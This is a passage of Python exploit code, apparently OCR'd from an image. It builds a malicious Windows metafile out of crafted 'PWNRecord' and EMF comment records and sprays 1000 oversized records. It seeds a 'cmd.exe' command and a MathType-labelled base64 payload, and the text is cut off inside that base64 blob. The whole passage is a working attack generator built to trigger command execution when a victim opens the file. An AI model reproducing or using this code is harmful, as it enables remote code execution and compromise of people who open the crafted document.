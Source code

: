 ```python
            self.RecordSize += 4 + int(length / 2)
        else:
            self.RecordSize += 6

    def __bytes__(self):
        s = super(PWNRecord, self).__bytes__()
        s += p32(0x233)
        s += p32(self.size)
        if self.buf:
            s += self.buf
        else:
            s += p32(0)
        return s


class EMFRecord(Record):
    def __init__(self, data):
        super(EMFRecord, self).__init__()
        self.RecordFunction = 1574

        self.efun = 0
        self.bytecount = 0
        self.CommentIdentifier = 'AppsMFCC'.encode()

        self.RecordSize += 11
        length = len(data)
        if length & 1:
            data += '\x00'.encode()
            length += 1

        self.RecordSize += int(length / 2)
        self.alloc_size = 0
        self.buff_size = 0
        self.version = 1
        if isinstance(data, str):
            self.data = data.encode()
        else:
            self.data = data

    def __bytes__(self):
        s = super(EMFRecord, self).__bytes__()
        s += p16(self.efun)
        s += p16(self.bytecount)
        s += self.CommentIdentifier
        s += p16(self.version)
        s += p32(self.alloc_size)
        s += p32(self.buff_size)
        s += self.data
        return s


if __name__ == '__main__':
    h = Header()
    h.right = 7168
    h.bottom = 512
    h.inch = 2304
    h + PWNRecord(0x20, 'cmd.exe\x00'.encode())
    for x in range(1000):
        h + PWNRecord(0x108)

    payload = 'Design Science, Inc.\x00'.encode()
    # original data from test
    payload += base64.b64decode('''BQEABwREU01UNwAAE1dpbkFsbEJhc2ljQ29kZVBhZ2VzABEFVGltZXMgTmV3IFJv
```